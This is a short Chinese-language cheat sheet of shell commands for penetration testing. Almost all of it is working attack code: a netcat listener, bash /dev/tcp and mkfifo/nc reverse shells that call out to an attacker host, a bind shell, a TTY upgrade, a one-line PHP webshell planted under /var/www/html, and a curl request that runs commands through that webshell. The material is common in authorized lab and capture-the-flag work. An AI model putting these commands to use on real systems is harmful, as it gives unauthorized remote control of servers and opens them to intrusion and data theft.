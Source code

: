 # Shell 使用小记

-  启动监听

```
    nc -lvnp 2348
```

-  从远程服务器发送反弹 Shell

```
    bash -c 'bash -i >& /dev/tcp/10.10.10.5/2348 0>&1'
```

-  从远程服务器发送另一个反弹 Shell

```
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.10.10.10 1234 >/tmp/f
```

-  在远程服务器上启动绑定 Shell

```
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/bash -i2>&1\|nc -lvnp 1234 >/tmp/f
```

-  连接到在远程服务器上启动的绑定 Shell

```
    nc 10.10.10.10 1234
```

-  升级 Shell 环境

```
    python -c 'import pty; pty.spawn("/bin/bash")'
    
    ctrl+z
    stty raw -echo
    fg
    连续按enter两次
```

-  创建一个 webshell php 文件

```
    echo "<?php system(\$_GET['cmd']);?>" >/var/www/html/shell.php
```

-  在上传的 webshell 上执行命令
- 
```
    curl http://SERVER_IP:PORT/shell.php?cmd=id
```